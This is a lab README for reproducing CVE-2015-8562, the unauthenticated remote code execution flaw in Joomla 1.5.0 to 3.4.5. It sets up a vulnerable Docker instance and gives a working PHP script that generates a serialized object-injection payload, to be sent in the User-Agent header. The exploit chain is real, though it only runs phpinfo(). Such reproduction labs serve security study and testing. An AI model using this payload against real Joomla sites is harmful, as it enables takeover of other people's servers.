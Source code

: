 # Joomla HTTP Header Unauthenticated Remote Code Execution (CVE-2015-8562)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

Joomla suffers from an unauthenticated remote code execution that affects all versions from 1.5.0 to 3.4.5. By storing user supplied headers in the databases session table it's possible to truncate the input by sending an 4-bytes UTF-8 character. The custom created payload is then executed once the session is read from the database. You also need to have a PHP version before 5.4.45 (including 5.3.x), 5.5.29 or 5.6.13.

References:

- <https://packetstormsecurity.com/files/134949/Joomla-HTTP-Header-Unauthenticated-Remote-Code-Execution.html>
- <https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html>

## Vulnerable Environment

Executing following command to start a Joomla 3.4.5:

```
docker-compose up -d
```

After the server is started, you can see the home page of it at `http://your-ip:8080`.

## Exploit

First of all, you need to send a request without User-Agent header and remember the Cookie in the response:

![](2.png)

Then use this script to generate a payload ([execute online](https://onlinephp.io/c/e824b)):

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![](1.png)

Put this craft payload into User-Agent header with Cookie obtained earlier then send request again. As you can see, our code `phpinfo()` is executed:

![](3.png)
